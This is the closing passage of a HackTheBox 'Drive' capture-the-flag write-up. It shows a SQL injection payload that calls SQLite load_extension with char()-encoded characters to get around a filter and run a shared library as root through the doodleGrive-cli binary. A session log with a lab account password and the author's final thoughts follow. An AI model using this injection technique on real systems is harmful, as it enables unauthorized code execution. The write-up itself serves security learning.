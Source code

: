 Now, we just have to inject a RCE payload. Since the server filters for the '.' and '/' characters, we also need to use the char() function in SQLite to encode it. Here is our final paylaod:

```
"+load_extension(char(46,47,97))+"
```

The '46,47,97' part is './a'. We can run it:

```
tom@drive:~$ ./doodleGrive-cli
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
moriarty
Enter password for moriarty:
findMeIfY0uC@nMr.Holmz!
Welcome...!

doodleGrive cli beta-2.2:
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 5
Enter username to activate account: "+load_extension(char(46,47,97))+"
Activating account for user '"+load_extension(char(46,47,97))+"'...
Error: ./a.so: undefined symbol: sqlite3_a_init
```

We get an error, but when we try to read /tmp/a.txt it exists. There's the root flag!

```
tom@drive:~$ cat /tmp/a.txt
********************************
```

## Final Thoughts

Overall, I found this box a great machine with a fun exploitation path. It was maybe a little easy for a hard box, but both user and root involved interesting and fun vulnerabilities that I haven't seen on HTB in a while. I struggled on the initial foothold for a bit since there were a lot of possible attack vectors, but everything else was straightforward. 

Personally, root was the most unique and part of the box. It involves SQL injection inside a Linux executable, which is something I haven't seen before. The exploitation isn't hard, but there are some filters you need to bypass. It does take some time to disassmble the binary and understand how to exploit. It was a fun process though, I enjoyed the box the whole way through.

Drive was an amazing box, definitely 5 stars. Hope you enjoyed this writeup, and I'll see you in the next one!